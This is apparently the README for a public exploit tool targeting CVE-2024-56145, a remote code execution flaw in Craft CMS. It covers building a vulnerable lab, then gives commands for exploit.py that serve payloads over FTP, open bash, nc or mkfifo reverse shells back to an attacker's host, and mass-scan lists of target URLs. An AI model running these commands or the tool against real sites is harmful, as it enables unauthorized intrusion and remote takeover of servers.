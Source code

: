 # CVE-2024-56145

This tool is designed to exploit a vulnerability in **Craft CMS** identified by the amazing research team at [Assetnote](https://www.assetnote.io/resources/research/how-an-obscure-php-footgun-led-to-rce-in-craft-cms). The issue arises due to improper handling of user-supplied template paths, allowing attackers to achieve **Remote Code Execution (RCE)** 🛠️ via specially crafted payloads.

## 来源

[https://github.com/Chocapikk/CVE-2024-56145/](https://github.com/Chocapikk/CVE-2024-56145/)

🙏 **Special thanks to Assetnote for their dedication to security and research.**

---

## ✨ Features

- 🚀 **Automated FTP server** to serve malicious payloads.
- 🧪 **Reverse shell payload generation** with multiple options (`bash`, `nc`, `mkfifo`).
- 🔍 **Vulnerability checker** to identify vulnerable targets.
- 🖥️ **Multithreaded support** for faster scans.
- 🛠️ **Easy-to-use CLI interface** with clear feedback.

---

## 🛡️ Setting Up a Vulnerable Lab

Follow these steps to set up a Craft CMS instance for testing purposes:

```bash
mkdir exploit-craft && \
cd exploit-craft && \
# Configure DDEV project for Craft CMS
ddev config \
  --project-type=craftcms \
  --docroot=web \
  --create-docroot \
  --php-version="8.2" \
  --database="mysql:8.0" \
  --nodejs-version="20" && \
# Create the DDEV project
ddev start -y && \
# Create Craft CMS with the specified version
ddev composer create -y --no-scripts --no-interaction "craftcms/craft:5.0.0" && \
# Install the specific CMS version
ddev composer require "craftcms/cms:5.5.0" \
  --no-scripts \
  --no-interaction --with-all-dependencies && \
# Set the security key for Craft CMS
ddev craft setup/security-key && \
# Install Craft CMS
ddev craft install/craft \
    --username=admin \
    --password=password123 \
    --email=admin@example.com \
    --site-name=Testsite \
    --language=en \
    --site-url='$DDEV_PRIMARY_URL' && \
# Enable register_argc_argv for PHP
mkdir -p .ddev/php/ && \
echo "register_argc_argv = On" > .ddev/php/php.ini && \
ddev restart && \
# Final step, echo message and launch the project
echo 'Nice, ready to launch!' && \
ddev launch
```

---

## 🚨 Usage

Run the tool with the `--help` flag to view available commands:

```bash
python exploit.py --help
```

![](./img/help.png)

---

### 🚀 Exploit Command

To exploit a target:

```bash
python exploit.py exploit -u <TARGET_URL> -lh <LOCAL_HOST> -lp <LOCAL_PORT> -px <PAYLOAD_TYPE>
```

![](./img/exploit.png)

#### ⚙️ Options:
- `-u` / `--url`: The target URL (required).
- `-lh` / `--lhost`: Your local IP for receiving the reverse shell (required).
- `-lp` / `--lport`: The local port for the listener (required).
- `-fh` / `--ftp-host`: The FTP server host
- `-fp` / `--ftp-port`: The FTP server port
- `-px` / `--payload`: Payload type (`bash`, `nc`, `mkfifo`). Default: `bash`.

#### 🧪 Example:
```bash
python exploit.py exploit -u https://example.com -lh 192.168.1.10 -lp 4444 -fh 127.0.0.1 -fp 2121 -px bash
```

---

### 🔍 Check Command

To check if a target is vulnerable:

```bash
python exploit.py check -u <TARGET_URL> -f <FILE_WITH_URLS> -t <THREADS> -o <OUTPUT_FILE>
```

#### ⚙️ Options:
- `-u` / `--url`: A single target URL.
- `-f` / `--file`: A file containing multiple URLs to scan.
- `-t` / `--threads`: Number of concurrent threads for scanning.
- `-o` / `--output`: Output file to save results.

![](./img/check.png)

#### 🧪 Example:
```bash
python exploit.py check -f urls.txt -t 10 -o results.txt
```

Enjoy responsibly and ethically! ✨